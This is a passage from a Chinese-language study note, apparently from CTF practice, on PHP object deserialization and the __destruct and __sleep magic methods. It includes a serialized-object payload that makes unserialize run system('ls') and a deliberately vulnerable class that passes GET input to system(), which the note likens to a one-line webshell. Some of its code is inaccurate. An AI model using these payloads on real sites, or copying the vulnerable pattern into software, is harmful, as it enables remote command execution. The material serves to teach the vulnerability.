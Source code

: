 很熟悉的destruct()的反序列化 在php最后一句反序列化话中会调用destruct()函数 所以我们直接构造payload

```shell
?benben=O:4:"User":1:{s:3:"cmd";s:13:"system("ls");";}

.1.php 2.php 3.php
```



**0x003**
__sleep()：在序列化之前会被触发

```php
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    public function __construct($username, $nickname, $password)    {
        $this->username = $username;
        $this->nickname = $nickname;
        $this->password = $password;
    }
    public function __sleep() { 
        return array('username', 'nickname');
    }
}
$user = new User('a', 'b', 'c');	//先调用__construct 赋值a,b,c进去
echo serialize($user);	//在序列化之前调用__sleep 只返回两个值给user 再序列化user

O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}
```

__sleep() 例题:

```php
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    public function __construct($username, $nickname, $password)    {
        $this->username = $username;
        $this->nickname = $nickname;
        $this->password = $password;
    }
    public function __sleep() {
        system($this->username);	
    }
}
$cmd = $_GET['benben'];	//GET拿到benbe=
$user = new User($cmd, 'b', 'c');	//调用__construct函数 payload,b,c分别赋值
echo unserialize($user);	//反序列化前调用__sleep函数 只返回给user username然后反序列化
//注意这边是system()函数 而且不是反序列化 所以可以直接GET传参 相当于一句话木马

?benben=ls
1.php 2.php 3.php 4.php N;
```
